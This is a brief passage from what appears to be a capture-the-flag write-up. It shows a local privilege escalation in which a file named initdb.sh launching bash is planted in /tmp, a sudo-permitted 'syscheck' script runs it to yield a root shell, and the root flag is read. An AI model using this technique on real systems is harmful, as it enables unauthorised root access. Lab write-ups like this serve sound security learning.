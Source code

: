 Create a bash script named `initdb.sh` that executes `bash`

```bash
dvir@headless:~/app$ cd /tmp
dvir@headless:/tmp$ echo '/bin/bash' > initdb.sh
dvir@headless:/tmp$ chmod +x initdb.sh
```

Run the `syscheck` script

```bash
dvir@headless:/tmp$ sudo /usr/bin/syscheck
Last Kernel Modification Time: 01/02/2024 10:05
Available disk space: 2.0G
System load average:  0.00, 0.00, 0.00
Database service is not running. Starting it...
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
52eb04691902f819282f98f490ba7594
```

# Additional
---
